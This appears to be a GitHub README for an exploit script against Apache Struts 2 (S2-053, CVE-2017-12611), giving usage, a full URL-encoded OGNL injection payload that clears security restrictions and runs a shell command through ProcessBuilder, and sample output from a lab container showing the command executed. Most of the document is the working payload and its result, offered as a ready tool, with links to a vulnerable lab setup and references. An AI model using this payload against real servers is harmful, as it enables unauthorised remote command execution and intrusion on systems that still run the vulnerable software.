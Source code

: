 # S2-053-CVE-2017-12611
A simple script for exploit RCE for Struts 2 S2-053(CVE-2017-12611)

# Usage
    exploit.py <url> <param> <command>

# Example
```
$ python s2-053-exploit.py "http://127.0.0.1" "name" "uname -a"
[*] Generated EXP: http://127.0.0.1/?name=%25%7B%28%23dm%3D%40ognl.OgnlContext%40DEFAULT_MEMBER_ACCESS%29.%28%23_memberAccess%3F%28%23_memberAccess%3D%23dm%29%3A%28%28%23container%3D%23context%5B%27com.opensymphony.xwork2.ActionContext.container%27%5D%29.%28%23ognlUtil%3D%23container.getInstance%28%40com.opensymphony.xwork2.ognl.OgnlUtil%40class%29%29.%28%23ognlUtil.getExcludedPackageNames%28%29.clear%28%29%29.%28%23ognlUtil.getExcludedClasses%28%29.clear%28%29%29.%28%23context.setMemberAccess%28%23dm%29%29%29%29.%28%23cmd%3D%27uname%20-a%27%29.%28%23iswin%3D%28%40java.lang.System%40getProperty%28%27os.name%27%29.toLowerCase%28%29.contains%28%27win%27%29%29%29.%28%23cmds%3D%28%23iswin%3F%7B%27cmd.exe%27%2C%27/c%27%2C%23cmd%7D%3A%7B%27/bin/bash%27%2C%27-c%27%2C%23cmd%7D%29%29.%28%23p%3Dnew%20java.lang.ProcessBuilder%28%23cmds%29%29.%28%23p.redirectErrorStream%28true%29%29.%28%23process%3D%23p.start%28%29%29.%28%40org.apache.commons.io.IOUtils%40toString%28%23process.getInputStream%28%29%29%29%7D

[*] Exploiting...
[+] Response: <html>
<head>
<title>S2-053 Demo</title>
</head>
<body>
<h1>S2-053 Demo</h1>
<hr/>
Your name: Linux a66c177c2326 4.4.0-70-generic ;jsessionid=64A259D92EC63543AD72E6AA847319C9#91-Ubuntu SMP Wed Mar 22 12:47:43 UTC 2017 x86_64 GNU/Linux

<hr/>
Enter your name here:<br/>
<form action="" method="get">
<input type="text" name="name" value="" />
<input type="submit" value="Submit" />
</form>
<br/><br/><br/>
<p>See more at: <a href="https://github.com/Medicean/VulApps/tree/master/s/struts2/s2-053">VulApps - S2-053</a></p>
</body>
</html>

[+] Exploit Finished!
```
    
# Vuln Env
* [S3-053](https://github.com/Medicean/VulApps/tree/master/s/struts2/s2-053)

# Reference
* [S2-053 复现分析过程(附POC)](https://mp.weixin.qq.com/s/4CiKgVn7Y-hWUKRjgECsuA)
* [S2-053](https://cwiki.apache.org/confluence/display/WW/S2-053)

